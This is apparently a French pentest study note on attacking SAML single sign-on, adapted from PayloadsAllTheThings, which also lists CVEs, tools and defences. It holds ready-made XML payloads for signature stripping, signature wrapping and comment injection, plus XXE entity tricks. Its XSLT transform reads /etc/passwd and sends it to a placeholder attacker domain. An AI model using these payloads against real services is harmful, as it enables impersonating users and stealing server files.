

# SAML — Attaques

> [!info] **En 1 phrase**
> SAML = échange d'authentification entre un **IdP** (Identity Provider) et un **SP** (Service Provider)
> via une **assertion XML signée** ; si le SP ne vérifie pas la signature, les conditions ou le contenu,
> on peut **se faire passer pour n'importe quel utilisateur** (impersonation) ou **rejouer** une assertion.
>
> Source principale : **[PayloadsAllTheThings — SAML Injection (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SAML%20Injection/README.md)**

---

## Concept & flux SAML



> [!info] **Les 2 bindings principaux**
> - **POST binding** : l'assertion est encodée en **base64** et envoyée dans un formulaire `SAMLResponse` (POST). Le plus courant pour les attaques (facile à modifier dans Burp).
> - **Redirect binding** : l'assertion (en général juste la `AuthnRequest`) est dans l'**URL** (`SAMLRequest`/`SAMLResponse` en base64 + `RelayState`), signature **DSA/RSA sur l'URL elle-même**.

---

## Anatomie d'une assertion SAML

> La `SAMLResponse` doit contenir `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="https://sp/acss" ID="..." IssueInstant="..." Version="2.0">
  <saml2:Issuer>https://idp.example.com</saml2:Issuer>
  <saml2:Assertion ID="id_assertion" IssueInstant="..." Version="2.0">
    <saml2:Issuer>https://idp.example.com</saml2:Issuer>

    <!-- Qui est authentifié : cible N°1 des attaques -->
    <saml2:Subject>
      <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">user@corp.com</saml2:NameID>
      <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml2:SubjectConfirmationData NotOnOrAfter="2026-01-01T10:33:53Z" Recipient="https://sp/acss"/>
      </saml2:SubjectConfirmation>
    </saml2:Subject>

    <!-- Validité temporelle + audience : cibles N°2 -->
    <saml2:Conditions NotBefore="2026-01-01T10:23:53Z" NotOnOrAfter="2026-01-01T10:33:53Z">
      <saml2:AudienceRestriction>
        <saml2:Audience>https://sp.example.com</saml2:Audience>
      </saml2:AudienceRestriction>
    </saml2:Conditions>

    <!-- Authentification réelle -->
    <saml2:AuthnStatement AuthnInstant="..." SessionIndex="...">
      <saml2:AuthnContext>
        <saml2:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml2:AuthnContextClassRef>
      </saml2:AuthnContext>
    </saml2:AuthnStatement>

    <!-- Attributs (role, uid, group...) : cibles N°3 -->
    <saml2:AttributeStatement>
      <saml2:Attribute Name="urn:oid:0.9.2342.19200300.100.1.1" NameFormat="...:attrname-format:uri">
        <saml2:AttributeValue>user</saml2:AttributeValue>
      </saml2:Attribute>
    </saml2:AttributeStatement>

    <!-- La signature protège la référence (le digest) ci-dessous -->
    <ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
      <ds:SignedInfo>
        <ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
        <ds:SignatureMethod Algorithm="http://www.w3.org/2001/04/xmldsig-more#rsa-sha256"/>
        <ds:Reference URI="#id_assertion">
          <ds:Transforms>
            <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
            <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
          </ds:Transforms>
          <ds:DigestMethod Algorithm="http://www.w3.org/2001/04/xmlenc#sha256"/>
          <ds:DigestValue>...</ds:DigestValue>
        </ds:Reference>
      </ds:SignedInfo>
      <ds:SignatureValue>...</ds:SignatureValue>
      <ds:KeyInfo><ds:X509Certificate>...</ds:X509Certificate></ds:KeyInfo>
    </ds:Signature>
  </saml2:Assertion>
</saml2p:Response>
```

| Bloc | Rôle | Si mal vérifié... |
|---|---|---|
| `<Subject>/<NameID>` | identité de l'utilisateur | **impersonation** en changeant le NameID |
| `<SubjectConfirmationData>` | `NotOnOrAfter`, `Recipient` | assertion **rejouée** après expiration / hors SP |
| `<Conditions>` | `NotBefore` / `NotOnOrAfter` | pas d'expiration → **replay à l'infini** |
| `<AudienceRestriction>` | pour quel SP est l'assertion | assertion **volée à un autre SP** |
| `<AttributeStatement>` | roles/attributs métier | **escalade** (role → admin) |
| `<ds:Signature>` | intégrité + authenticité | retirée / contournée → **forger l'assertion** |

---

## Attaques

### 1. Signature stripping / absence de vérification

> `[...]accepter une assertion non signée, c'est accepter un username sans vérifier le mot de passe — @ilektrojohn`

Si la section `<ds:Signature>` est **omise** de la réponse, certains SP (config par défaut)
**ne font aucune vérification de signature**. But : forger une assertion bien formée sans la signer.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-04-22T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
                <saml2:Audience>WLS_SP</saml2:Audience>
            </saml2:AudienceRestriction>
        </saml2:Conditions>
        <saml2:AuthnStatement AuthnInstant="2018-04-22T10:28:49.876Z" SessionIndex="id1524392933593.694282512" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AuthnContext>
                <saml2:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml2:AuthnContextClassRef>
            </saml2:AuthnContext>
        </saml2:AuthnStatement>
    </saml2:Assertion>
</saml2p:Response>
```

> [!warning] **Signature invalide** : si le SP vérifie **qu'il y a** une signature mais pas qu'elle est **valide**,
> on peut utiliser un **certificat auto-signé** (ou cloner celui de l'IdP) à la place du vrai → le SP accepte.

### 2. XML Signature Wrapping (XSW)

Certaines implémentations vérifient la signature **sans corréler** le nœud signé au nœud utilisé :
elles acceptent **plusieurs assertions**, **plusieurs signatures**, ou se comportent différemment
selon **l'ordre** des assertions. On "enveloppe" l'assertion légitime avec une copie **non signée** forgée.

**Vocabulaire** : `FA` = Forged Assertion, `LA` = Legitimate Assertion, `LAS` = signature de la LA.

```xml
<SAMLResponse>
  <FA ID="evil">
      <Subject>Attacker</Subject>
  </FA>
  <LA ID="legitimate">
      <Subject>Legitimate User</Subject>
      <LAS>
         <Reference Reference URI="legitimate">
         </Reference>
      </LAS>
  </LA>
</SAMLResponse>
```

> [!danger] **Exemple réel (GitHub Enterprise)** : cette requête vérifie la signature (`LA`)
> mais **crée la session pour `Attacker`** (`FA`), même si `FA` n'est pas signée.

| # | Cible | Principe |
|---|---|---|
| **XSW1** | Response | copie **non signée** de la Response **après** la signature existante |
| **XSW2** | Response | copie non signée de la Response **avant** la signature existante |
| **XSW3** | Assertion | copie non signée de l'Assertion **avant** l'Assertion existante |
| **XSW4** | Assertion | copie non signée de l'Assertion **dans** l'Assertion existante |
| **XSW5** | Assertion | modifier une valeur dans la copie signée **+** copie de l'assertion originale (signature retirée) **à la fin** du message |
| **XSW6** | Assertion | idem XSW5 mais la copie (signature retirée) est placée **après la signature originale** |
| **XSW7** | Assertion | bloc **`<Extensions>`** contenant une assertion non signée clonée |
| **XSW8** | Assertion | bloc **`<Object>`** contenant une copie de l'assertion originale sans signature |

**Déplacer la signature** : sortir le nœud `<ds:Signature>` de l'assertion légitime et l'accrocher
sur une assertion forgée → le digest référence toujours `#legitimate` mais le SP peut utiliser le contenu `FA`.

**XSW dans un commentaire** : insérer l'assertion forgée **à l'intérieur d'un commentaire XML** placé
avant l'assertion signée. Si la canonicalisation de la signature retire les commentaires
(`WithComments=false`) mais que le parser de l'app les conserve/lit à l'intérieur, le SP consomme l'assertion non signée.

```xml
<SAMLResponse>
  <Assertion ID="evil">...</Assertion>
  <!--
  <Assertion ID="legitimate">
    <ds:Signature>...</ds:Signature>
  </Assertion>
  -->
</SAMLResponse>
```

### 3. Comment tampering (injection de commentaires)

> Un attaquant déjà authentifié sur un SSO peut s'authentifier **en tant qu'un autre utilisateur**
> sans son mot de passe, en cassant le **NameID** avec un commentaire XML.

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```

`user@user.com` = première partie du nom d'utilisateur, `.evil.com` = la seconde.
La **vérification de signature** est faite sur le contenu **canonicalisé** (commentaires supprimés →
le nom semble intact) mais l'application **parse le XML avec les commentaires** → elle voit `user@user.com`
et `.evil.com` comme 2 valeurs → **login en tant que `user@user.com`**.

**CVEs associées (multi-produits)** :

| Produit | CVE |
|---|---|
| OneLogin — **python-saml** | CVE-2017-11427 |
| OneLogin — **ruby-saml** | CVE-2017-11428 |
| Clever — **saml2-js** | CVE-2017-11429 |
| **OmniAuth-SAML** | CVE-2017-11430 |
| **Shibboleth** | CVE-2018-0489 |
| **Duo Network Gateway** | CVE-2018-7340 |
| Oracle **WebLogic** (XSW / mauvais traitement assertion) | CVE-2018-2998 / CVE-2018-2933 |

### 4. XML External Entity (XXE) dans l'assertion

SAML est du **XML** → toutes les attaques XML s'appliquent. Les entités permettent de
**bypasser la vérification de signature** : le contenu **ne change pas** avant le parsing, mais
**change pendant le parsing** (le digest signe le texte brut avec `&s;`... que l'app décode ensuite).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

- `&s;` → `"s"`, `&f1;` → `"f1"` (entités internes). La réponse est **acceptée par le SP** et
  l'application rapporte `"taf"` comme valeur de l'attribut `uid` : la valeur **décodée ≠ valeur signée**.
- Variante exfiltration : entité **externe** `SYSTEM "file:///etc/passwd"` ou vers un serveur contrôlé
  (voir [[XXE| XXE]]).

### 5. XSLT (Extensible Stylesheet Language Transformation)

La validation de signature peut appliquer une **transformation XSLT** via l'élément `<ds:Transform>`
(souvent pour du code legacy). Un `transform` malveillant permet de **lire des fichiers** et de les
**exfiltrer** pendant la vérification.

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://[ATTACKER.DOMAIN.TLD]/'"/>
            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

---

## Modification d'assertion (assertion tampering)

> [!tip] **Premier réflexe** : intercepter une `SAMLResponse` valide (Burp), la décoder en base64,
> modifier un champ, re-encoder, renvoyer. **Chaque modification doit être re-testée** car les SP
> vérifient parfois des champs différents.

```bash
# Décoder / re-encoder la SAMLResponse (POST binding, base64)
echo "PD94bWwg..." | base64 -d > saml.xml   # modifier NameID/attributs/signature
base64 -w0 saml.xml > saml_b64.txt
```

### NameID → impersonation

```xml
<!-- changer uniquement le nom -->
<saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">admin</saml2:NameID>
```

### Attributs → escalade de privilèges

```xml
<saml2:AttributeStatement>
  <saml2:Attribute Name="role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
    <saml2:AttributeValue>user</saml2:AttributeValue>      <!-- → admin -->
  </saml2:Attribute>
</saml2:AttributeStatement>
```

### Conditions → replay illimité

```xml
<!-- étendre la fenêtre de validité : 2000 → 2099 -->
<saml2:Conditions NotBefore="2000-01-01T00:00:00Z" NotOnOrAfter="2099-01-01T00:00:00Z">
```

### Replay

- Rejouer la **même** `SAMLResponse` (même `ID`, mêmes timestamps) → si le SP ne garde pas de
  **liste d'assertions déjà vues** (`InResponseTo`/`ID`), la session est recréée.
- Supprimer/ignorer `NotOnOrAfter` → assertion **jamais expirée**.
- `AudienceRestriction` non vérifiée → assertion d'un SP A **réutilisée sur le SP B**.

---

## Cryptographie & faiblesses

| Faiblesse | Détail |
|---|---|
| **Clés faibles** | clé IdP de 512 bits, clé RSA 768/1024 bits, matériel de clé prédictible → factorisation |
| **Algorithmes faibles** | `rsa-sha1`, `hmac-sha1`, digest `md5`/`sha1` → collision/forgery |
| **Absence de vérification du certificat** | cert auto-signé ou cloné accepté (signature "valide" mais pas de PKI) |
| **Confusion d'algorithme** | forcer `http://www.w3.org/2000/09/xmldsig#hmac-sha1` quand le SP attend RSA → vérification contournée ou bas de gamme |
| **`exclusive c14n` mal implémentée** | la canonicalisation appliquée diffère entre vérif et usage → wrappable |
| **ReXML (ruby-saml)** | parsing XML avec gestion de commentaires divergente (CVE-2017-11428) |
| **Parser non sécurisé** | DTD/entités activées → XXE (section 4) |

---

## Bypass de validation — le détail qui tue

> [!warning] **L'ordre de validation est critique** : un SP qui **parse l'assertion et utilise son
> contenu AVANT de vérifier la signature** est vulnérable. La signature doit être vérifiée
> **sur le même flux canonique** que celui consommé, **avant tout usage**.

1. **Vérif la signature en dernier** → toutes les attaques ci-dessus marchent.
2. **Signature vérifiée mais pas corrélée** (XSW) : digest valide sur `LA`, mais l'app lit `FA`.
3. **Canonicalisation divergente** : la signature couvre une forme (`xml-exc-c14n`, commentaires
   retirés) et l'app en lit une autre (avec commentaires) → **comment tampering**.
4. **Transforms** : l'ordre/la liste des `<ds:Transform>` doit être fixe et allowlistée. Une
   `Transform` XSLT arbitraire = lecture de fichiers. Le `enveloped-signature` doit être présent
   et ne jamais autoriser d'**autre** transform.

```xml
<!-- Transforms "clean" : on ne devrait trouver QUE ces 2 algorithmes -->
<ds:Transforms>
  <ds:Transform Algorithm="http://www.w3.org/2000/09/xmldsig#enveloped-signature"/>
  <ds:Transform Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
</ds:Transforms>
```

5. **Librairies vulnérables** (voir table CVEs) : python-saml / ruby-saml / saml2-js / OmniAuth-SAML
   (CVE-2017-11427→11430), Shibboleth 2 (CVE-2018-0489), Duo NG (CVE-2018-7340), WebLogic (CVE-2018-2998/2933).

---

## Replay & session

```txt
1. On capture une SAMLResponse légitime (on est un vrai user).
2. On la rejoue telle quelle → SP accepte de nouveau ? (pas de One-Time-Use / cache d'ID)
3. On la rejoue après NotOnOrAfter → toujours acceptée ? (pas de vérif horodatage)
4. On la rejoue vers un AUTRE endpoint/SP → acceptée ? (AudienceRestriction non vérifiée)
5. On retire <SubjectConfirmationData> → session sans contrainte temporelle ?
```

---

## Outils

| Outil | Usage |
|---|---|
| **SAMLRaider** (CompassSecurity/SAMLRaider) | Extension Burp : décoder/modifier/re-signer les SAMLResponse, gestion des certificats, fuzzing de signature |
| **XSW** (d0ge/XSW) | Extension Burp : génère les variantes **XSW 1 à 8** automatiquement |
| **ZAP — SAML Support addon** | Détecter/éditer/fuzzer les requêtes SAML |
| **python-saml / saml2** | Reproduire le flux IdP/SP en Python pour automatiser les tests (et valider les CVE) |
| **xswfuzzer** | Fuzzer les combinaisons de wrapping / déplacement de signature (recherche académique "On Breaking SAML") |

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Valider la signature AVANT usage** | digest + signature vérifiés sur le nœud effectivement utilisé |
| **Validation stricte du schéma XML** | `xsd` SAML 2.0 + `xmldsig` appliqués avant toute lecture de contenu |
| **Corréler nœud signé ↔ nœud consommé** | une seule assertion, un seul `Reference`, `URI` pointant vers l'assertion utilisée |
| **Parser XML sécurisé** | DTD/entités désactivées (anti-XXE), allowlist de `ds:Transform` (enveloppé + exc-c14n uniquement) |
| **Canonicalisation unique** | la même pour la vérif et pour l'usage ; commentaires gérés de façon cohérente |
| **Horodatage** | rejeter avant `NotBefore` / après `NotOnOrAfter` (avec marge) |
| **Audience** | `AudienceRestriction` doit correspondre à l'entité SP **et** au `Recipient` |
| **Anti-replay** | mémoriser les `ID` / `InResponseTo` utilisés (one-time-use), invalider la session en fin de flow |
| **Clés & certificats** | clés > 2048 bits, algo ≥ SHA-256, certificat réel (PKI), pas de clé partagée entre SP |
| **Ne jamais faire confiance au contenu** | le NameID/les attributs sont de la donnée signée, pas une entrée libre |

---

## Tips & Pièges

> [!tip] **Ordre d'essai méthodique**
> 1. **Signature stripping** : retirer `<ds:Signature>` → accepté ?
> 2. **Modifier le NameID / les attributs** sans toucher la signature → accepté ?
> 3. **Comment injection** dans le NameID (`<!-- -->`) → signature intacte, valeur différente ?
> 4. **XSW** : dupliquer l'assertion (XSW1→8) avec SAMLRaider / extension XSW.
> 5. **XXE / XSLT** : entités ou transform dans la signature.
> 6. **Replay** : même assertion, après expiration, vers un autre SP.
> Si l'étape 2 échoue, la signature est vérifiée : c'est alors le **wrapping** ou le **comment** qu'il faut.

> [!warning] **Pièges**
> - **SAML = XML** : toutes les attaques XML (XXE, XSLT, comment wrapping, parser confusion) s'appliquent.
> - Le **base64 n'est pas du chiffrement** : la `SAMLResponse` se décode en clair, ne jamais en dépendre.
> - **POST binding ≠ GET** : tester les 2 (`SAMLResponse` en POST, `SAMLRequest` dans l'URL).
> - Ne pas supprimer `<SubjectConfirmationData>` **et** espérer une session : certains SP l'exigent → plutôt l'étendre.
> - Le digest signe le **texte brut** : une entité résolue au parsing **change** la valeur finale → XXE bypass signature.
> - Attention aux **transform XSLT** : c'est une RCE de fait (lecture `unparsed-text`, exfil HTTP).

---

## Liens

- [[Attaques JWT| JWT]]
- [[OAuth| OAuth]]
- [[XXE| XXE]]
- [[Injection SQL| Injection SQL]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — SAML Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SAML%20Injection/README.md)
- [OWASP SAML Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SAML_Security_Cheat_Sheet.html)
- [On Breaking SAML: Be Whoever You Want to Be (Usenix Sec 2012)](https://www.usenix.org/conference/usenixsecurity12/technical-sessions/presentation/somorovsky)
